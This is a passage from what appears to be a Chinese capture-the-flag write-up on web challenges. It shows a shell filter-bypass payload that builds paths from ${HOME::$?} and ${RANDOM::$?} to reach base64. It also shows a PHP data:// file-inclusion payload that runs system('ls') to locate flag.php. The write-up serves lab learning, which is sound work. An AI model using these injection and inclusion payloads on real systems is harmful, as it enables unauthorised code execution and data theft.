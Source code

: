 `PWD USER #`这些也被过滤掉了

可以使用`${HOME::$?}`来构造`/`，井号没了，后面使用`RAMDOM`随机数变量随机生成了一个 4 至 5 位数，然后取随机数的第一位，当随机数的第一位为 4 即可匹配到 base64

题目给的payload：

```
payload:code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
#可能存在成功的机会，不断刷新
```

需要多试几次



---

## 文件包含

####  web78

![image-20250227195822456](assets/image-20250227195822456.png)

参考web37，先读目录：

```
?file=data://text/plain,<?php system("ls");?>
```

拿到`flag.php`

![image-20250227200037501](assets/image-20250227200037501.png)

